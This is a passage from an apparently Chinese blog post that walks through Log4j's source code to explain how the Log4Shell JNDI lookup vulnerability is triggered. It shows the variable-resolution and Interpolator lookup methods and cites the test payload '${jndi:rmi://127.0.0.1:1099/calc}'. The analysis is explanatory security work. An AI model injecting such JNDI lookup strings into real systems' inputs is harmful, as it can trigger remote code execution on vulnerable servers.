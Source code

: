 ```java
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf,
                                    final int startPos, final int endPos) {
    final StrLookup resolver = getVariableResolver();
    if (resolver == null) {
        return null;
    }
    return resolver.lookup(event, variableName);
}
```

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214175321.png)

和官方文档上是能够对应上的，即 log 里只解析前缀为 `date`、`jndi` 等的命令，本文的测试用例使用的是 `${jndi:rmi://127.0.0.1:1099/calc}`。

![](http://yano.oss-cn-beijing.aliyuncs.com/blog/20211214175427.png?x-oss-process=style/yano)

解析出参数的结果， org.apache.logging.log4j.core.lookup.Interpolator#lookup

```java
@Override
public String lookup(final LogEvent event, String var) {
    if (var == null) {
        return null;
    }

    final int prefixPos = var.indexOf(PREFIX_SEPARATOR);
    if (prefixPos >= 0) {
        final String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);
        final String name = var.substring(prefixPos + 1);
        final StrLookup lookup = strLookupMap.get(prefix);
        if (lookup instanceof ConfigurationAware) {
            ((ConfigurationAware) lookup).setConfiguration(configuration);
        }
        String value = null;
        if (lookup != null) {
            value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
        }

        if (value != null) {
            return value;
        }
        var = var.substring(prefixPos + 1);
    }
    if (defaultLookup != null) {
        return event == null ? defaultLookup.lookup(var) : defaultLookup.lookup(event, var);
    }
    return null;
}
```

其核心是这段代码：
